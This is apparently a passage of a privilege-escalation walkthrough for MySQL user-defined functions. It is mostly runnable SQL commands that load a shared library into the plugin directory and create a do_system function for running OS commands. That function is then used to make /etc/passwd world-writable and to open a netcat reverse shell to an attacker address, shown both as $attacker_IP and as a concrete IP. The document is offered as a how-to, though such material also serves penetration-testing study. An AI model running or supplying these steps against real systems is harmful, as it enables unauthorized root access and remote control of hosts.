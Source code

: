 Create a table.

```
create table foo(line blob);
```

Use load-file function to insert the content into the table.

```
insert into foo values(load_file('/tmp/1518_udf.so'));
```

Check plugin directory location:

```
 select @@plugin_dir;
```

Dump that inserted shared library content in the plugin directory location.

```
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518_udf.so';
```

 Create function:

```
create function do_system returns integer soname '1518_udf.so';
```

Use function for exploitation,verify using ping command or by creating file:

```
 select do_system('ping -c 4 192.168.0.225');  
 select do_system('touch /tmp/test'); 
```

Change the permission of /etc/passwd to 777 for root access

```
 select do_system('chmod 777 /etc/passwd');
```

Use netcat to take shell

```
select do_system('nc -e /bin/bash $attacker_IP $port');

Example:
select do_system('nc -e /bin/bash 192.168.31.6 223');
```

References:

[https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf)

[https://www.exploit-db.com/docs/english/44139-mysql-udf-exploitation.pdf?rss](https://www.exploit-db.com/docs/english/44139-mysql-udf-exploitation.pdf?rss)
